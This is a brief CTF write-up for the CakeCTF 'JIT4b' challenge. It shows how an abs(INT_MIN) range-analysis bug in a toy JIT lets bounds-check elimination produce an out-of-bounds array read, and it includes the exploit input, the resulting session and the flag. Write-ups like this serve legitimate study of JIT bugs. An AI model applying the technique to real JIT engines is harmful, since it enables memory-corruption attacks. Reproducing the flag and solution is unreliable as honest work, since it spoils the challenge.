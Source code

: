 # Notes - JIT4b

- div INT_MIN => Range(1, 0)
- mul 3	=> Range(3, 0)
0 <= Range(3, 0) is true because 0 <= 3
Range(3, 0) < 3 is true because 0 < 3

then call f(INT_MIN)
=> real_x = INT_MIN/INT_MIN = 1
=> real_x = real_x * 3 = 3
=> OOB

Bug is when it calls abs
abs(INT_MIN) = INT_MIN
https://www.cplusplus.com/reference/cstdlib/abs/

```
Step 1. Build your function
1:Add / 2:Sub / 3:Mul / 4:Div / 5:Min / 6:Max / Others:Exit
> 4
value: -2147483648 
1:Add / 2:Sub / 3:Mul / 4:Div / 5:Min / 6:Max / Others:Exit
> 3
value: 3
1:Add / 2:Sub / 3:Mul / 4:Div / 5:Min / 6:Max / Others:Exit
> 0
[+] Your function looks like this:

function f(x) {
  let arr = [3.14, 3.14, 3.14];
  x /= -2147483648;
  x *= 3;
  return arr[x];
}

Step 2. Optimize your function...
[JIT] Speculation: Range(-2147483648, 2147483647)
[JIT] Applying [ x /= -2147483648 ]
[JIT] Speculation: Range(1, 0)
[JIT] Applying [ x *= 3 ]
[JIT] CheckBound: 0 <= Range(3, 0) < 3?
      --> Yes. Eliminating bound check for performance.

Step 3. Call your optimized function
What's the argument `x` passed to `f`?
x = -2147483648 
[+] f(-2147483648) --> 1.63042e-322
[+] Wow! You deceived the JIT compiler!
[+] CakeCTF{1_th1nk_u_c4n_try_2_3xpl017_r34l_bug5_1n_br0ws3r}
```
